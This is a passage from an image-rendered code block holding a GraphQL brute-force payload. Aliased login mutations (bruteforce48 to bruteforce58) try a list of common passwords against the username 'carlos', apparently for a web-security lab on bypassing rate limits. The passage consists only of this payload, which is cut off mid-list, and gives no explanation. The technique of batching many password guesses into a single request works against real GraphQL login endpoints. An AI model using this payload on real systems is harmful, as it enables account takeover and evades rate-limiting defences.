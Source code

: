 ```plain


bruteforce48:login(input:{password: "charlie", username: "carlos"}) {
        token
        success
    }


bruteforce49:login(input:{password: "robert", username: "carlos"}) {
        token
        success
    }


bruteforce50:login(input:{password: "thomas", username: "carlos"}) {
        token
        success
    }


bruteforce51:login(input:{password: "hockey", username: "carlos"}) {
        token
        success
    }


bruteforce52:login(input:{password: "ranger", username: "carlos"}) {
        token
        success
    }


bruteforce53:login(input:{password: "daniel", username: "carlos"}) {
        token
        success
    }


bruteforce54:login(input:{password: "starwars", username: "carlos"}) {
        token
        success
    }


bruteforce55:login(input:{password: "klaster", username: "carlos"}) {
        token
        success
    }


bruteforce56:login(input:{password: "112233", username: "carlos"}) {
        token
        success
    }


bruteforce57:login(input:{password: "george", username: "carlos"}) {
        token
        success
    }


bruteforce58:login(input:{password: "computer", username: "carlos"}) {
```